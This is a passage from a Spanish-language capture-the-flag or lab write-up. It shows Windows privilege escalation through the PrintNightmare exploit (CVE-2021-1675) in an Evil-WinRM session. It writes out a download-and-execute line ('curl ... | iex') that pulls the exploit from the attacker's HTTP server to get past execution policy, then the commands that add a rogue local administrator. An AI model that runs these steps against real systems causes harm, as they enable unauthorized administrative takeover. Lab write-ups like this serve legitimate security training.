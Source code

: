 ```bash
Info: Upload successful!
```

- Si importamos el modulo vemos que no podemos por una política definida en el sistema.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module .\CVE-2021-1675.ps1
File C:\Users\tony\Documents\CVE-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\CVE-2021-1675.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```

- Vamos a subirlo de otra forma.

```bash
➜  content python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Lo que podemos hacer es descargarlo con `curl` y usar `iex` o `Invoke-Expression` además de usar el parámetro `-UseBasicParsing` que se utiliza con el `cmdlet` `Invoke-WebReques`t en `Porwershell`.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> curl 10.10.14.19:80/CVE-2021-1675.ps1 -UseBasicParsing | iex
```

- Ahora vamos añadir nuestro usuario `Administrador`.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -NewUser migue
lito -NewPassword miguel123
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user miguelito as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

- Ahora comprobamos que el usuario forme parte del grupo `Administrators` para poder conectarnos.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> net user miguelito
User name                    miguelito
Full Name                    miguelito
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/3/2024 2:06:36 AM
Password expires             Never
Password changeable          4/3/2024 2:06:36 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All
```
